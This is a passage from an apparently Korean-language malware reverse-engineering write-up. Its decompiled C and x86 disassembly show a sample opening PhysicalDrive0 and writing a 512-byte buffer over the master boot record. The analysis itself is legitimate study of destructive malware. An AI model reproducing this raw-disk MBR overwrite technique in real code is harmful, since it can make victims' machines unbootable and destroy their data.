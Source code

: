       *(undefined4 *)((int)&p_Stack4 + iVar1) = 0;
      *(undefined4 *)(&stack0xfffffff8 + iVar1) = 0;
      *(undefined4 *)(&stack0xfffffff4 + iVar1) = 0x200;
      *(undefined4 **)(&stack0xfffffff0 + iVar1) = local_2020;
      *(undefined4 *)((int)&uStackY24 + iVar1) = 0x403bfe;
      WriteFile(*(HANDLE *)(&stack0xffffffec + iVar1),*(LPCVOID *)(&stack0xfffffff0 + iVar1),
                *(DWORD *)(&stack0xfffffff4 + iVar1),*(LPDWORD *)(&stack0xfffffff8 + iVar1),
                *(LPOVERLAPPED *)((int)&p_Stack4 + iVar1));
      *(HANDLE *)(&stack0xffffffec + iVar1) = pvVar3;
      *(undefined4 *)((int)&uStackY24 + iVar1) = 0x403c09;
      BVar4 = CloseHandle(*(HANDLE *)(&stack0xffffffec + iVar1));
      *(BOOL *)(&stack0xffffffec + iVar1) = BVar4;
      return 0;
    }
    ```
    
    `CreateFileW` 함수를 이용하여 MBR을 포함하고 있는 `PhysicalDrive0` 를 열어서 핸들을 얻어온다. `CreateFilew` 에서는 크게 볼건 없고 MBR을 포함하고 있는 `PhsycialDrive0` 의 핸들을 얻어오는 것이 중요하다. 
    
    ```cpp
    				00403b7a be 20 40        MOV        ESI,DAT_00404020                                 = C88C00EBh
                     40 00
            00403b7f 29 c4           SUB        ESP,EAX
            00403b81 8d bd e8        LEA        EDI=>local_2020,[EBP + 0xffffdfe8]
                     df ff ff
            00403b87 e8 04 de        CALL       FUN_00401990                                     undefined FUN_00401990(void)
                     ff ff
            00403b8c b9 00 08        MOV        ECX,0x800
                     00 00
            00403b91 f3 a5           MOVSD.REP  ES:EDI,ESI=>DAT_00404020      
                       = C88C00EBh
    				...
    				00403bcf 89 c6           MOV        ESI,EAX
            00403bd1 8d 85 e8        LEA        EAX=>local_2020,[EBP + 0xffffdfe8]
                     df ff ff
            00403bd7 83 ec 1c        SUB        ESP,0x1c
            00403bda 89 34 24        MOV        dword ptr [ESP],ESI // hFile
            00403bdd c7 44 24        MOV        dword ptr [ESP + 0x10],0x0 // lpOverlapped
                     10 00 00 
                     00 00
            00403be5 c7 44 24        MOV        dword ptr [ESP + 0xc],0x0 // lpNumberOfBytesWritten
                     0c 00 00 
                     00 00
            00403bed c7 44 24        MOV        dword ptr [ESP + 0x8],0x200 // nNumberOfBytesToWrite
                     08 00 02 
                     00 00
            00403bf5 89 44 24 04     MOV        dword ptr [ESP + 0x4],EAX // lpBuffer
            00403bf9 e8 aa fe        CALL       KERNEL32.DLL::WriteFile                          BOOL WriteFile(HANDLE hFile, LPC
                     ff ff
    ```
    